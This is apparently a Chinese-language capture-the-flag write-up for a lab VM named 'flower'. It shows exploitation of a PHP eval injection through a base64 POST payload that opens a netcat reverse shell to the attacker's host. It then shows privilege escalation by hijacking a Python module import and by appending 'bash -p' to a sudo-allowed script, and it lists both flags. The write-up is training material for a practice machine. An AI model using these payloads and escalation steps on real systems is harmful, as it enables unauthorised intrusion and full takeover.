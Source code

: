 ### 端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.114
```

```bash
PORT   STATE SERVICE
80/tcp open  http
```

### web端渗透

![image-20241013152748128](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241013152748128.png)

传参为`MjErMzQ=`

base64解码是`21+34`

猜测后端函数是`eval`

```php
<?php
if (isset($_POST["petals"])){
	echo eval("return ".base64_decode($_POST["petals"]).";").' petals ';
}
?>
```

```
system("nc 192.168.56.101 1234 -e /bin/bash");
```

```http
POST / HTTP/1.1
Host: 192.168.56.114
Content-Length: 71
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.114
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.56.114/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

petals=c3lzdGVtKCJuYyAxOTIuMTY4LjU2LjEwMSAxMjM0IC1lIC9iaW4vYmFzaCIpOw==
```

### 提权

```bash
(remote) www-data@flower:/home/rose/diary$ sudo -l
Matching Defaults entries for www-data on flower:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on flower:
    (rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py
```

可以无密码执行`/home/rose/diary/diary.py`

```bash
(remote) www-data@flower:/home/rose/diary$ cat diary.py
import pickle

diary = {"November28":"i found a blue viola","December1":"i lost my blue viola"}
p = open('diary.pickle','wb')
pickle.dump(diary,p)
```

写入`pickle.py`

```bash
echo "import os;os.system('/bin/bash')" > pickle.py
```

```bash
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
```

#### user's flag

```bash
rose@flower:~$ cat user.txt 
HMV{R0ses_are_R3d$}
```

```bash
rose@flower:~$ sudo -l
Matching Defaults entries for rose on flower:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rose may run the following commands on flower:
    (root) NOPASSWD: /bin/bash /home/rose/.plantbook
```

```bash
rose@flower:~$ ls -lah /home/rose/.plantbook
-rwx------ 1 rose rose 128 Oct 13 03:22 /home/rose/.plantbook
rose@flower:~$ echo "bash -p" >> /home/rose/.plantbook
rose@flower:~$ cat /home/rose/.plantbook
#!/bin/bash
echo Hello, write the name of the flower that u found
read flower
echo Nice, $flower submitted on : $(date)
bash -p
bash -p
rose@flower:~$ sudo -u root /bin/bash /home/rose/.plantbook
Hello, write the name of the flower that u found

Nice, submitted on : Sun Oct 13 03:35:43 EDT 2024
```

#### root's flag

```bash
root@flower:/home/rose# cat /root/root.txt 
HMV{R0ses_are_als0_black.}
```

